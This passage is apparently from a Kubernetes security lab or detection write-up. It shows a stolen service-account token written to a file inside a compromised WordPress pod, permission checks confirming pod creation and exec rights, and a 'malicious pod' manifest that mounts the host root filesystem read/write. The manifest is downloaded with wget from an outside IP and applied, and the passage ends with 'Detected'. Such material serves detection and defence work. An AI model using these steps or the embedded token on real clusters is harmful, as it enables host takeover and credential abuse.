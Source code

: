 ```bash
root@wordpress-9bb79bb48-fw68x:~# echo eyJhbGciOiJSUzI1NiIsImtpZCI6IlNuWHRyQlNnbXEzeVVza2hPcHY1WUhLZG1zVWRDN2dYeW5sX2U0QUtRS2sifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJkZXYiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlY3JldC5uYW1lIjoiZGV2b3BzLXRva2VuLWo4cGdzIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImRldm9wcyIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VydmljZS1hY2NvdW50LnVpZCI6IjkzMjVkMmVjLWMyYWYtNGQxNS04NzM2LWI1YTQzMWVlZDRiOSIsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZXY6ZGV2b3BzIn0.nmV-HExVqXl8sXJKPelItpQSApiBgw4WhC8KO2cDdzbi3I9z4357BZ4uLPa5j9YdFb79Tvp8lohU0LIOBFuFRCpe88jlbt3KVNr9VnEG4XGhTWRr1PjZijDckAcaA1vYhKTSeLMttUjjoyStmqfvcENWeFL43CPSXoXHWd8AbLfZPm-kljo3xBDnCAbrcYdADaVB8nQfjsVzQTQiQ3UG5kujCsUD-1ZkrzN4jQ7TmNlXwd0MuQAtmHosYNZi4vQ8rAa9h-nXyOKo_MJdGV7Mskas-bUnC1Kb_tHaznreA809KI6JFy-Y9YaqaZPGqANhrLyfhATzIjgFB0bXLKDxVw > devops-token

root@wordpress-9bb79bb48-fw68x:~# ./kubectl --token=$(cat devops-token) auth can-i create pods
yes

root@wordpress-9bb79bb48-fw68x:~# ./kubectl --token=$(cat devops-token) auth can-i create pods/exec
yes

```
I can create pods and exec into them with this Service Account token


## Use case 8 : malicious pod creation that mount root path of the host : read / write

```yaml
kind: Pod
metadata: 
  name: alpine
  namespace: dev
spec: 
  containers:
  - name: evil
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", "sleep 300000000"]
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
  automountServiceAccountToken: true 
```
```bash
root@wordpress-9bb79bb48-fw68x:~# wget 45.55.34.24:8000/evil.yaml
root@wordpress-9bb79bb48-fw68x:~# ./kubectl --token=$(cat devops-token) apply -f evil.yaml 
pod/alpine created
```

Detected 
